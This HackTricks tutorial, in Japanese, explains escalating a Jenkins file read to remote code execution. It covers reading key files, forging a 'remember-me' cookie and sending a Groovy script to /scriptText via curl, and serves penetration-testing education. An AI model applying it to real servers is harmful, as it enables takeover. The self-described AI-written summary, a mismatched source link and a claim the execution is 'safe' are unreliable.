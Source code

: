 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分で要約を作成する時間ができるまでの間のものです:

### 攻撃の前提条件

* **機能要件:** "Remember me"が有効である必要があります（デフォルト設定）。
* **アクセスレベル:** 攻撃者は全体/読み取り権限が必要です。
* **秘密アクセス:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### 詳細な悪用プロセス

#### ステップ1: データ収集

**ユーザー情報の取得**

* 各ユーザーの`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密をアクセスして収集します:
* **ユーザー名**
* **ユーザーシード**
* **タイムスタンプ**
* **パスワードハッシュ**

**秘密鍵の抽出**

* クッキーの署名に使用される暗号鍵を抽出します:
* **秘密鍵:** `$JENKINS_HOME/secret.key`
* **マスターキー:** `$JENKINS_HOME/secrets/master.key`
* **MACキーのファイル:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### ステップ2: クッキーの偽造

**トークンの準備**

*   **トークンの有効期限を計算:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 現在の時間に1時間を追加
```
{% endcode %}
*   **トークンのデータを連結:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MACキーの復号化**

*   **MACキーのファイルを復号化:**

```javascript
key = toAes128Key(masterKey)  // マスターキーをAES128キー形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号化
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**署名の計算**

*   **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey)  // トークンとMACキーを使用してHMACを計算
tokenSignature = bytesToHexString(mac)  // MACを16進数の文字列に変換
```

**クッキーのエンコーディング**

*   **最終クッキーを生成:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // クッキーのデータをBase64エンコード
```
{% endcode %}

#### ステップ3: コード実行

**セッション認証**

* **CSRFおよびセッショントークンを取得:**
* `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
* 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**コマンド実行リクエスト**

*   **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
